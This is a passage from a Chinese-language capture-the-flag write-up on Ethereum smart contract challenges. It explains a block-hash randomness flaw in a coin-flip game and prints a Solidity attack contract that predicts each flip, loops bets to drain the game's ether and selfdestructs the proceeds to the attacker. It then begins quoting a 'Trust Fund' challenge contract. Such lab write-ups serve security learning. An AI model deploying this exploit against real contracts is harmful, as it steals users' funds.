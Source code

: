 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://md.byr.moe/uploads/upload_0ea1d52498778603ecefa84663939c9e.png)

这个完全可以理解为 coinFlip == _heads （题目中不同变量类型）

总之还是 随机数的漏洞我们直接编写脚本即可。

注意每次传入的是0.1eth 然后我们可以得到 0.1*3/2 = 0.15

但是每次我传了 0.1 那么每次可以多得到0.05

为了把1 eth全赢回来需要赢得20次循环调用即可（类似薅羊毛）

```
contract hack`{`
    address target=challenge address;
    HeadsOrTails A=HeadsOrTails(target);
    constructor()payable`{``}`
    function exp() payable
    `{`
        for(uint i=1;i&lt;=20;i++)
        `{`
        bytes32 entropy = blockhash(block.number-1);
        bytes1 coinFlip = entropy[0] &amp; 1;
        if(coinFlip==1)
        `{`
            A.play.value(100000000000000000)(true);
        `}`
        else
           A.play.value(100000000000000000)(false);
        `}`

        selfdestruct(your address);
    `}`
    function ()payable`{``}`

`}`
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://md.byr.moe/uploads/upload_ae3a29afe74717a17f8f99ea46592f14.png)

具体步骤和Lottery 一样 记住要给攻击合约 多点钱 我给了1 eth.

## Trust Fund

代码如下

```
pragma solidity 0.4.24;

import "../CtfFramework.sol";
import "../../node_modules/openzeppelin-solidity/contracts/math/SafeMath.sol";

contract TrustFund is CtfFramework`{`

    using SafeMath for uint256;

    uint256 public allowancePerYear;
    uint256 public startDate;
    uint256 public numberOfWithdrawls;
    bool public withdrewThisYear;
    address public custodian;

    constructor(address _ctfLauncher, address _player) public payable
        CtfFramework(_ctfLauncher, _player)
```